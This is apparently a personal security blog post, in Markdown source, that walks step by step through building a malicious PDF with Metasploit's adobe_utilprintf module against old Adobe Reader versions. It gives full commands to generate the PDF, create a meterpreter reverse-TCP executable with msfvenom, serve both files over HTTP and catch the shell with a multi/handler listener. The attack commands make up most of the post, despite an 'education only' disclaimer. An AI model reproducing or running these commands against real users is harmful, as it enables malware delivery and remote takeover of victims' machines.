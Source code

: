 ```yaml
---
title: "Create malicious pdf"
date: "2020-10-02"
layout: single
tags:
- PDF
categories:
- Blog-post
---
```


Malicious PDF is one of the way to infect users because this document format is very common and used by almost everyone.

In this article, I will show you how to generate our malicious PDF using Metasploit. We gonna use an old exploit for a vulnerable Adobe Reader version.

**This article is for research and education purpose only**. Do with your own risk!

**The exploit is targeting a specific version of Adobe Reader** which is **vulnerable Adobe Reader version** (less than 8.1.2). So, you need to install this version first on your Windows XP target machine as mention in Metasploit module.

## Generate malicious pdf
We gonna use `adobe_utilprintf` vulnerability

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/1.PNG)

    use exploit/windows/fileformat/adobe_utilprintf
    set filename malicious.pdf
    set payload windows/exec
    set cmd malware.exe
    exploit

## Create reverse shell executable
Copy the malicious pdf to a directory that we gonna setup our HTTP server.
And create a reverse shell executable using msvenom.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/2.PNG)

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.83.128 LPORT=1111 -f exe > malware.exe

Note:
Change LHOST with your IP

## Download executable and PDF  in the target machine

You can use this python line to step up local HTTP server.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/3.PNG)

    python -m SimpleHTTPServer

Download both of the files, and copy `malware.exe` to `System32` folder

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/4.PNG)
![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/5.PNG)

## Listen to reverse shell

Listen to reverse shell and wait for the execution of the file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/6.PNG)

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 192.168.83.128
    set lport 1111
    run

## We're in
After we double click the PDF, the exploit will run. So, this classic exploit successful!
